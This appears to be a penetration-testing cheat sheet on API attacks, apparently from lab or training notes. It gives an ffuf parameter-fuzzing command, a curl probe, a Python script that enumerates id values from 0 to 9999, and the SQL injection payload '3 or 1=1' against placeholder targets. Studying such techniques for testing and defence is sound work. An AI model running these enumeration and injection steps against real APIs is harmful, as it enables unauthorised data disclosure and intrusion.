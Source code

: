 # API Attacks



## Information Disclosure (with a twist of SQLi)

#### Fuzzing parameters

Wordlist - [burp-parameter-names.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt)

{% code overflow="wrap" %}
```bash
ffuf -w "burp-parameter-names.txt" -u 'https://SERVER_IP:PORT/?FUZZ=test_value'
```
{% endcode %}

#### Check response by specifying the fuzzed parameter (id)

```bash
curl http://SERVER_IP:PORT/?id=1
[{"id":"1","username":"admin","position":"1"}]
```

#### Retrieve all the parameters values

```python
import requests, sys

def brute():
    try:
        value = range(10000)
        for val in value:
            url = sys.argv[1]
            r = requests.get(url + '/?id='+str(val))
            if "position" in r.text:
                print("Number found!", val)
                print(r.text)
    except IndexError:
        print("Enter a URL E.g.: http://<TARGET IP>:3003/")

brute()
```

```bash
python3 brute_api.py http://SERVER_IP:PORT
```

#### Test for SQLi

Try classic payloads like `3 or 1=1`

```
http://SERVER_IP:PORT/?id=3%20or%201=1
```

